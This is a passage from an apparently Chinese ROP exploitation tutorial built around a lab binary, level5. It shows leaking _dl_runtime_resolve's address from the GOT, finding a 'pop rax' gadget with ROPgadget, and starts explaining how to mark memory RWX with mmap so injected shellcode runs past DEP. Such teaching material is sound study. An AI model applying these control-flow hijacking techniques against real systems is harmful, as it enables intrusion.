 
从`0x7ffff7def235`开始，就是这个通用gadget的地址了。通过这个gadget我们可以控制rdi，rsi，rdx，rcx，r8，r9的值。但要注意的是`_dl_runtime_resolve()`在内存中的地址是随机的。所以我们需要先用information leak得到`_dl_runtime_resolve()`在内存中的地址。那么`_dl_runtime_resolve()`的地址被保存在了哪个固定的地址呢？

通过反编译level5程序我们可以看到`write@plt()`这个函数使用PLT [0] 去查找write函数在内存中的地址，函数jump过去的地址*0x600ff8其实就是`_dl_runtime_resolve()`在内存中的地址了。所以只要获取到0x600ff8这个地址保存的数据，就能够找到`_dl_runtime_resolve()`在内存中的地址：

    
    
    0000000000400420 <write@plt-0x10>:
      400420:   ff 35 ca 0b 20 00       pushq  0x200bca(%rip)        # 600ff0 <_GLOBAL_OFFSET_TABLE_+0x8>
      400426:   ff 25 cc 0b 20 00       jmpq   *0x200bcc(%rip)        # 600ff8 <_GLOBAL_OFFSET_TABLE_+0x10>
      40042c:   0f 1f 40 00             nopl   0x0(%rax)
    
    gdb-peda$ x/x 0x600ff8
    0x600ff8 <_GLOBAL_OFFSET_TABLE_+16>:    0x00007ffff7def200
    
    gdb-peda$ x/21i 0x00007ffff7def200
       0x7ffff7def200 <_dl_runtime_resolve>:    sub    rsp,0x38
       0x7ffff7def204 <_dl_runtime_resolve+4>:  mov    QWORD PTR [rsp],rax
       0x7ffff7def208 <_dl_runtime_resolve+8>:  mov    QWORD PTR [rsp+0x8],rcx
       0x7ffff7def20d <_dl_runtime_resolve+13>: mov    QWORD PTR 
    [rsp+0x10],rdx
    ….
    

另一个要注意的是，想要利用这个gadget，我们还需要控制rax的值，因为gadget是通过rax跳转的：

    
    
    0x7ffff7def235 <_dl_runtime_resolve+53>:    mov    r11,rax
    ……
    0x7ffff7def25e <_dl_runtime_resolve+94>:    jmp    r11
    

所以我们接下来用ROPgadget查找一下libc.so中控制rax的gadget：

    
    
    ROPgadget --binary libc.so.6 --only "pop|ret" | grep "rax"
    0x000000000001f076 : pop rax ; pop rbx ; pop rbp ; ret
    0x0000000000023950 : pop rax ; ret
    0x000000000019176e : pop rax ; ret 0xffed
    0x0000000000123504 : pop rax ; ret 0xfff0
    

`0x0000000000023950`刚好符合我们的要求。有了`poprax`和`_dl_runtime_resolve`这两个gadgets，我们就可以很轻松的调用想要的调用的函数了。

# 0x02 利用mmap执行任意shellcode

* * *

看了这么多rop后是不是感觉我们利用rop只是用来执行system有点太不过瘾了？另外网上和msf里有那么多的shellcode难道在默认开启DEP的今天已经没有用处了吗？并不是的，我们可以通过mmap或者mprotect将某块内存改成RWX(可读可写可执行)，然后将shellcode保存到这块内存，然后控制pc跳转过去就可以执行任意的shellcode了，比如说建立一个socket连接等。下面我们就结合上一节中提到的通用gadgets来让程序执行一段shellcode。

我们测试的目标程序还是level5。在exp中，我们首先用上一篇中提到的`_dl_runtime_resolve`中的通用gadgets泄露出`got_write`和`_dl_runtime_resolve`的地址。
